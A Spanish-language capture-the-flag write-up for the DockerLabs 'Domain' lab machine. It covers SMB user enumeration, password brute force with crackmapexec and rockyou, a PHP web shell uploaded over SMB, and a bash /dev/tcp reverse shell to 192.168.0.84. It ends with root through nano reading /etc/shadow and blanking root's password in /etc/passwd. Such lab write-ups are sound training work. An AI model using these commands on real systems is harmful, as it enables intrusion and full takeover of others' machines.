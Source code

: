 ```yaml
---
title: "Domain Writeup - DockerLabs"
date: 2024-05-01
categories: [Writeups, DockersLabs, Medium]
tags: [Linux, Medium, Domain, Dockerlabs, privesc, smb, nano, port, revshell]
image:
   path: /assets/img/posts/domain/banner.png
   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
   alt: Banner Domain
---
```


| Información |
|------------|------------|------------|
| Máquina: Domain |
| Creador: El Pingüino de Mario |
| SO: Linux |
| Dificultad: Medium |

<hr>
Esta máquina está alojada en [DockersLabs](https://dockerlabs.es), una nueva plataforma creada por [ElPingüinoDeMario](https://www.linkedin.com/in/maalfer1/) con un concepto diferente al que estamos acostumbrados, en lugar de conectarnos a una vpn o virtualizar una máquina se realiza la conexión a la máquina vulnerable a través de Docker, pudiendo correr en la propia máquina atacante la víctima, una muy buena idea para ahorrar recursos.

El tutorial para poder realizar estas máquinas se encuentra [aquí](https://dockerlabs.es/assets/instrucciones_de_uso.pdf)
<hr>
Comenzamos realizando un ping para confirmar visibilidad entre máquinas

![](/assets/img/posts/domain/ping.png)

Realizamos un nmap para descubrir que servicios están corriendo en la máquina

![](/assets/img/posts/domain/nmap.png)

Vemos que hay un servidor web Apache y un servidor samba corriendo.

![](/assets/img/posts/domain/web.png)
>Samba es una suite de aplicaciones Unix que habla el protocolo SMB (Server Message Block). Los sistemas operativos Microsoft Windows y OS/2 utilizan SMB para compartir por red archivos e impresoras y para realizar tareas asociadas.
{:.prompt-info }

En la web nos encontramos una breve explicación de qué es samba y para qué se usa.

Realizo un fuzzeo en busca de directorios, subdirectorios y subdominios interesantes pero sin éxito.

Nos centramos en el servidor smb, lanzamos enum4linux, para una posible enumeración de usuarios

``` zsh
enum4linux 172.17.0.2
```

![](/assets/img/posts/domain/users.png)

Descubrimos dos usuarios: James y Bob

Creamos un diccionario con los dos nombres para realizar fuerza bruta con crackmapexec

```zsh
crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
-----------------------------------------------------------------------------------
SMB         172.17.0.2      445    86B2D8C57A0E     [+] 86B2D8C57A0E\bob:star 
```

Conseguimos las credenciales para bob:
`bob@star`

```zsh
smbmap -H 172.17.0.2 -u 'bob' -p 'star'
```

![](/assets/img/posts/domain/permisos.png)

Nos encontramos con que bob tiene permisos para modificar la carpeta html del servidor Apache, vamos a intentar subir un archivo PHP para realizar RCE.

Para acceder al recurso en el servidor smb usamos el comando:

```zsh
smbclient //172.17.0.2/html -U bob
```

![](/assets/img/posts/domain/smbclient.png)

Hacemos una pequeña prueba subiendo un archivo con el comando 'put'

![](/assets/img/posts/domain/put.png)

Llamamos al archivo y comprobamos que funciona correctamente

![](/assets/img/posts/domain/pwned.png)

Modificamos nuestro archivo `rce.php` subiendo un cmd para realizar el RCE

```php
<?php
        system($_GET['cmd']);
?>
```

Volvemos a realizar la comprobación:

![](/assets/img/posts/domain/cmd.png)

Procedemos a enviar una [revshell](https://www.revshells.com/)

```zsh
bash -c "bash -i >%26 /dev/tcp/192.168.0.84/4444 0>%261"
```

![](/assets/img/posts/domain/revshell.png)

Conseguimos una shell como el usuario www-data, nos cambiamos al usuario bob y comprobamos los privilegios.

![](/assets/img/posts/domain/subob.png)
![](/assets/img/posts/domain/find.png)

Pruebo a leer el /etc/shadow desde nano con este procedimiento de [GTFObins](https://gtfobins.github.io/gtfobins/nano)

![](/assets/img/posts/domain/gtfobins.png)

![](/assets/img/posts/domain/denied.png)

No somos capaces de leerlo, sin embargo haciendo la llamada directamente con el binario sí somos capaces de leer el shadow.

![](/assets/img/posts/domain/shadow.png)

Se puede observar que el inicio de sesión con contraseña está desactivado para root 

![](/assets/img/posts/domain/root.png)

Vamos al fichero /etc/passwd:

![](/assets/img/posts/domain/passwd.png)

Eliminamos la x, dejando al usuario root de la siguiente forma:

```zsh
root::0:0:root:/root:/bin/bash
```

Después  de este proceso con el comando `su root` ya tendremos permisos como root y habremos vulnerado la máquina.



